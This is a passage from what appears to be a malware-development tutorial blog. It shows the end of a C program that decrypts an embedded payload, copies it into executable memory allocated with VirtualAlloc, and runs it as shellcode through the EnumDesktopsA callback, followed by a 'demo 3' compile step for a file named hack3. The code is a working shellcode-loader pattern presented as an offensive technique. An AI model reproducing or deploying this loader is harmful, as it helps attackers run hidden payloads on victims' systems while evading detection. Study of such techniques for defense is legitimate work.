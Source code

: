 ```cpp
  for (int i = 0; i < length; i++) {
    printf("\\x%02x", payload[i]);
  }
  printf("\n");

  decrypt_payload(payload, length);
  printf("decrypted payload\n");
  for (int i = 0; i < length; i++) {
    printf("\\x%02x", payload[i]);
  }
  printf("\n");

  // execute the decrypted payload
  LPVOID mem = VirtualAlloc(NULL, length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, payload, length);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);

  free(payload);
  return 0;
}
```

### demo 3

Let's check last example. For simplicity, just check in `linux` first (comment lines with windows functions), compile:     

```bash
gcc -o hack3 hack3.c
```

![malware](/assets/images/156/2025-05-30_08-07.png){:class="img-responsive"}     
